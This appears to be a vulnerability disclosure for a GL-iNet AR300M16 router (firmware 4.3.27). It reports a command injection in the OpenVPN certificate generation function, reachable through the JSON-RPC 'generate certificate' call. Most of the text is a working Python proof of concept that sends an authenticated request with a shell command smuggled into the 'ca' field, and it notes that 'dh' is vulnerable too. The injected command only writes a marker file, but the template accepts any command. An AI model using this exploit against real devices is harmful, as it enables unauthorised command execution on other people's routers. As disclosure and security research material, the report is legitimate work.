


Submittion Date: 2025.4.18  
Vendor: GL-AR300M16  
Version: 4.3.27   
Firmware: openwrt-ar300m16-4.3.27-0514-1747192506  
Download Link: https://dl.gl-inet.cn/router/ar300m16/stable  

The function generate_certificatehandles critical OpenSSL certificate generation operations through unsafe command construction and execution, which leads to a command injection vulnerability. 
The function uses sprintf-style format strings to build shell commands with user-controlled input, then executes them via system calls without proper sanitization.


Exploit the vulnerability by sending a carefully constructed HTTP request

```
import requests

# 目标URL (注意：URL中的/rpc需要根据实际情况调整)
url = "http://192.168.2.10/rpc"

# 请求头 (完全匹配Burpsuite中的headers)
headers = {
    "Host": "192.168.2.10",
    "Content-Length": "247",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
    "Origin": "http://192.168.2.10",
    "Referer": "http://192.168.2.10/",
    "Accept-Encoding": "gzip, deflate, br",
    "Cookie": "Admin-Token=wb1H7fURGJM4dMpIsTQDZM50GNfgmqGd",
    "Connection": "keep-alive"
}

# 请求体 (JSON-RPC命令注入payload)
data = {
    "jsonrpc": "2.0",
    "method": "call",
     "params": [
        "LhYe29M1b07gEYD6M7r0GEhEdf7ZKwf",
        "ovpn-server",  
        "generate certificate",
        {
            "ca":";echo 12345>/www/2025-11-26-0-28.txt;"#“dh” has the sanme vuln
        }
    ]
}

# 发送POST请求
try:
    response = requests.post(
        url,
        headers=headers,
        json=data,
        verify=False  # 忽略SSL证书验证
    )
    
    # 输出响应信息
    print(f"Status Code: {response.status_code}")
    print("Response Headers:")
    print(response.headers)
    print("\nResponse Body:")
    print(response.text)
    
except requests.exceptions.RequestException as e:
    print(f"Request failed: {e}")
```

The exploitation is shown below.



